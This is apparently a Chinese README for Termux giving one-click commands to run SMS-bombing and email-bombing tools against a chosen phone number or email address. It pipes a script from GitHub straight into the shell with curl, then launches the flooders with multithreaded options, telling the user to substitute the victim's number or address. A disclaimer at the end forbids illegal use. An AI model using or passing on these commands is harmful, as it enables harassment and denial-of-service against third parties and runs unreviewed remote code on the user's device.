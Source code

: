 # 概述
  
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
- 若你没有科学环境可以自行搜索下载，或者点击[这里](https://m.youxibao.com/app/15333.html)
  
- 假如你在代码使用的过程中出现类似于的选项。
>Do you want to continue? [Y/n]
>
- 直接回车enter即可

[猫桶](https://catbucket.cn/)
  
# 一键代码使用
   ## 短信轰炸
  
  `source <(curl -L https://raw.githubusercontent.com/cat-bucket/cat-osint/main/sms.txt)`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号

  ## 邮箱轰炸
  
  在使用之前配置
  
 `pkg install git -y && pkg install php -y && pkg install python -y && git clone https://github.com/cat-bucket/mail-bomber && cd mail-bomber
`
 

### 无需邮箱但无法指定内容
   
更新接口（可选）

`php index.php update-nodes`

后续使用

`cd mail-bomber;php index.php start-bombing 邮箱`

替换要轰炸的邮箱




# 免责声明
本库为对各种程序的简单调用提供，仅供参考，禁止用于商业及非法用途。使用一键指令可能造成的事故与损失，项目未提供代理途径，短信轰炸并不安全，警遵中国法律。


